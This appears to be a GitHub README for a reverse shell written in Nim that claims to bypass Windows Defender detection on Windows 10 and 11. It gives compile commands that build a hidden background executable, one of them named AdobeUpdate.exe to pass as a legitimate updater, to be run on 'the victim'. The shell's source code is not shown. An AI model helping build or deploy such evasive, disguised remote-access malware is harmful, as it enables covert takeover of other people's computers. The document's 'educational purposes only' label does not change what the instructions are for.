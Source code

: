 # Nim Reverse Shell

A simple reverse shell written in Nim that bypasses Windows Defender detection (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)


## Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port

```bash
nim c -d:mingw --app:gui rev_shell.nim
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev-shell.nim
  -d: define compiler
  --app: generate gui app
  --opt: optimize for speed
  -o: output
```




